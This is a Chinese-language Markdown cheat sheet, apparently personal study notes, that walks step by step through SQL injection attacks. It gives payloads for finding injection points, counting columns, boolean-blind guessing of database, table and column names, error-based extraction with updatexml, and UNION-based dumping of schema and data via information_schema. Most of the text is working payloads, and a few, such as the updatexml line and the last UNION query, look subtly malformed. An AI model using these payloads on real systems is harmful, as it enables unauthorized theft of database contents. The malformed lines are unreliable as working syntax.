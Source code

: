 #### SQL注入漏洞

> SQL语句以字符串拼接，插入变量的方式构造，在相关位置插入脱库指令

1. 实现原理

2. 攻击过程

   1. 利用闭合判断是否存在注入点

      ```sql
      ' and 1=1 -- p
      ```

      ```sql
      " and 1=1 -- p
      ```

      ```sql
      ") and 1=1 -- p
      ```

      ```sql
      ")) and 1=1 -- p
      ```

   2. 存在注入点，按列排序，判断总列数

      ```sql
      order by 4 -- p
      ```

      > 从小到大逐个尝试，直到出现异常

   3. 界面不存在回显

      1. 布尔盲注

         1. 猜测库名

            ```sql
            and left(database(),1)='a' -- p
            ```

            > `left(string, int)` 返回从左侧开始，前几位

            1. 猜测库名长度

               ```sql
               and length(database())=3 -- p
               ```

            2. 二分法猜测库名

               ```sql
               and ascii(substr(database(),n,1))>97
               ```

         2. 爆破表名

            ```sql
            or exists(select * from 表名) -- p
            ```

            > 如果表名存在，原语句不运行where筛选，反之，报不存在表名错误

         3. 猜测表名

            ```sql
            and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit i,1),n,1))>97
            ```

            > i：第几个表，n：表名的第几个字

            1. 猜测库中表的数量

               ```sql
               and (select count(table_name) from information_schema.tables where table_schema=database())=2
               ```

            2. 猜测表名长度

               ```sql
               and length(substr((select table_name from information_schema.tables where table_schema=database() limit i,1),1))=5
               ```

         4. 此后，猜测列名（字段名）和猜测表名方法一致

      2. 报错注入

         错误回显内返回查询内容

         ```sql
         union select updatexml(1, concat(0x7e, (select user()), 0x7e,1) -- p
         ```

   4. 界面存在回显

      1. 采用联合查找进一步获取表格信息

         ```sql
         union select 1, 2, 3 -- p
         ```

         > 1, 2, 3为任意数字，个数与总列数一致

         > 数字后不接表名，查询不指向已有表，指向一个填充给定数字的表

         > 观察回显，此时可能并没有理想的回显，尝试将`id = 1`修改为无法检索到的位置，防止覆盖联合查找的输出

         1. 获取库名

            ```sql
            union select 1, database(), 3 -- p
            ```

         2. 获取库中全部表名

            ```sql
            union select 1, group_concat(table_name), 3 from information_schema.tables where table_schema = 'detected_database_name' limit 0, 1 -- p
            ```

            > `limit 0, 1`：从第0个元素开始，读取1个元素（即读取第一个元素）

         3. 获取表中全部列名

            ```sql
            union select 1, group_concat(column_name), 3 from information_schema.columns where table_schema = 'detected_database_name' and table_name = 'target_table_name' limit 0, 1 -- p
            ```

         4. 获取列中数据

            ```sql
            union select 1, 'target_column_name', 3 from 'target_table_name' -- p
            ```

